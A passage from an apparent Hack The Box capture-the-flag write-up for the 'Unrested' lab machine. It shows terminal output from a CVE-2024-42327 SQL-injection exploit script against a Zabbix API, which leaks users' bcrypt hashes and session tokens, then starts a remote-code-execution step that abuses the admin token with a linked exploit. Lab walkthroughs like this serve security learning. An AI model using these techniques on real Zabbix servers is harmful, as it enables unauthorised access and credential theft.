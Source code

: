 ```
┌──(kali㉿kali)-[~/HTB/Machines/Unrested]
└─$ python3 CVE-2024-42327.py -u http://10.10.11.50/zabbix/ -U matthew -P 96qzn0h2e1k3
[*] - Using http://10.10.11.50/zabbix/api_jsonrpc.php for API.
[*] - Authenticating with username: "matthew" and password "96qzn0h2e1k3"
[+] - Authentication Success!
[*] - Getting user details
[*] - Using SQL Injection to leak user credentials
userid: 1, username: Admin, password: $2y$10$L8UqvYPqu6d7c8NeChnxWe1.w6ycyBERr8UgeUYh.3AO7ps3zer2a, roleid: 3
userid: 2, username: guest, password: $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06, roleid: 4
userid: 3, username: matthew, password: $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS, roleid: 1
[*] - Leaking Session Tokens for API use
userid: 1, sessionid: 243da9178d094645e9662322ad113e48
userid: 3, sessionid: b175c104b32d41e4b9f03e9d5c9124c6
```


Cracking the bcrypt hashes doesn’t seem like a valid option since it would take forever and probably won’t yield anything.

# <a name="_toc194153067"></a>RCE
With the newly gained credentials, we can leverage the **Admin API token** to gain **Remote Code Execution** (**RCE)** on the web server host.

To do so, we refer to this exploit: [ZabbixAPIAbuse.py](https://github.com/Diefunction/ZabbixAPIAbuse/blob/master/ZabbixAPIAbuse.py).
First, we need the **`hostid`** and **`interfaceid`**. We can retrieve both using the **`hostinterface.get`** method shown in the exploit.

![Host Id Get](https://github.com/HaidarCoffee/HTBWriteups/blob/main/Linux/Medium/Unrested/Screenshots/5_Hostid.png?raw=true)
